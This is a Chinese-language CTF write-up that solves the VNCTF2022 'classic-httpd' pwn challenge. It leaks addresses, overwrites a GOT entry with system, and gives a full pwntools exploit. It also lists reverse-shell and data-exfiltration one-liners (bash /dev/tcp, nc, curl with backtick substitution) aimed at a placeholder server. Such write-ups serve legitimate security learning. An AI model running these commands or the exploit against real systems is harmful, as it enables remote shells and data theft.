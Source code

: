 ```yaml
---
layout: article
pageview: true
key: 2022-03-07-vnctf2022-httpd
title: VNCTF2022Pwn题WP
author: Ch4rc0al
categories: 
    - WriteUps
tags: 
    - CTF
    - Pwn
---
```


通过`classic-httpd`学习入门`httpd-pwn`
<!--more-->

## classic-httpd

题目是64位elf，保护为`Partial RELO`，意味着`got`表可写，其他保护全开。
### 初步分析
一般httpd程序的执行流程为
1. 在main函数中用pthread或fork来进入HTTP请求处理函数
2. 在HTTP请求处理函数中，过滤掉不合法的请求协议（通常只接受GET/POST）和请求目录（通常过滤掉含有".."的url，使我们不能访问`xxx.com/../flag` 来直接读取flag）
3. 根据请求url，跳转到对应的cgi函数或文件读取函数

程序只有3个可以访问的路径，`/htdocs/index.html`、`/htdocs/welcome.cgi`、`/htdocs/submit.cgi`，前两个路径都只会返回`/htdocs/index.html`文件内容，我们重点分析第三个cgi

![](https://md.buptmerak.cn/uploads/upload_060cbb11e92d60deb961e641ed7bf0ee.png)
经过逆向，我们发现`submit.cgi`以`GET`方式接受一个`base64`加密后的字符串，字符串原文必须类似以下结构
```c 
int num;
struct payload
{
    int code;
    int arg[6];

}payloads[8];
```
结构体中`code`决定走向哪一个功能分支，我们发现有输出功能、泄露制定地址功能、任意地址内容泄露功能、任意地址写功能以及一个输出功能，并且功能的使用顺序有一定的限制。
### 利用思路
我们先创建`/htdocs/index.html`来保证程序能够正常运行。
不难想到通过指定地址泄露功能来拿到`pie`地址，再通过任意地址内容泄露功能打印出`got`表内容来泄露`libc`基地址，如果为传统pwn，我们就可以任意地址写修改`hook`为`one_gadget`或修改`got`表来运行`system("cat flag")`拿flag走人，但别忘了在httpd-pwn中，我们与程序的交互有`socket`的隔阂，我们只能获取到程序通过`socket`发送的内容，程序的输出对我们来说并不可见。
### 反弹flag方法
既然我们在`socket`语境下，那我们也用`socket`的方法解决问题。
首先我们需要控制程序流，我们注意到在输出功能中有一个`strcmp`函数以用户输入的字符串为参数，那我们就可以修改其为`system`函数来执行命令，我们就可以尝试反弹shell、反弹flag、写flag进文件的方法了。

- 反弹shell
    1. 首先我们需要一台公网服务器，其ip假定为 1.1.1.1，我们登录服务器并运行命令`nc -lvp 4444`
    2. 在受害者的电脑上运行命令`bash -i >& /dev/tcp/1.1.1.1/4444 0>&1`，在此题语境下为执行`system("bash -i >& /dev/tcp/1.1.1.1/4444 0>&1");`（下略）
    3. 我们可以看到服务器上出现了受害者的shell，cat flag即可

- 反弹flag到nc
    1. 我们需要一台公网服务器，其ip假定为 1.1.1.1，我们登录服务器并运行命令`nc -lvp 4444`
    2. 在受害者的电脑上运行命令`cat flag|nc 1.1.1.1 4444`
    3. 服务器上接收到flag

- 反弹flag到http服务器
    1. 我们依然需要一台公网服务器并有一个http服务器运行在80端口，ip假定为 1.1.1.1
    2. 执行 
            ``curl http://1.1.1.1/`cat flag` `` （注意命令中的反引号）

    3. 登录服务器，查看日志，获取flag
    ![](https://md.buptmerak.cn/uploads/upload_338c549a596c7b26f76193d8b6421cfd.png)

- 写flag到文件
    1. 直接执行`cat flag > /htdocs/index.html`
    2. 正常访问`/htdocs/index.html`即可
程序在docker环境里一般没有写权限，所以这种方法成功率并不高

利用命令执行拿flag的方法还有很多，这里就不一一细举了，具体使用需要依赖题目环境等，希望能对刚刚接触http-pwn的读者有所启发。

### 完整exploit

```python-repl=
from pwn import *
import base64
import requests
context(arch='amd64',os='linux',log_level='debug')

elf=ELF('./httpd')
libc=ELF('./glibc-all-in-one/libs/2.31-0ubuntu9_amd64/libc-2.31.so')

url='http://localhost:4000/submit.cgi'

def make(con):
    return base64.b64encode(con)

payload=p32(1)+p32(102)+p32(0)
s=requests.get(url,params=make(payload))
res=s.text
print(res)
pie=int(res[27:39],16)-0x4008
print("[+]pie->"+hex(pie))

payload=p32(1)+p32(136)+p64(pie+elf.got['printf'])+p64(0)
s=requests.get(url,params=make(payload))
res=s.text
print(res)

libc_base=int(res[40:52],16)-libc.sym['printf']

print("[+]libc_base->"+hex(libc_base))

shell=b'curl http://xx.xx/`cat flag`'
payload=p32(2)+p32(241)+p64(pie+elf.got['strcmp'])+p64(0)+p64(libc_base+libc.sym['system'])+p32(34)+shell
s=requests.get(url,params=make(payload))
res=s.text
print(res)

```

### Tips
泄露远程libc版本后，可以使用[glibc-all-in-one](https://github.com/matrix1001/glibc-all-in-one)下载带符号表的`libc`文件帮助调试。
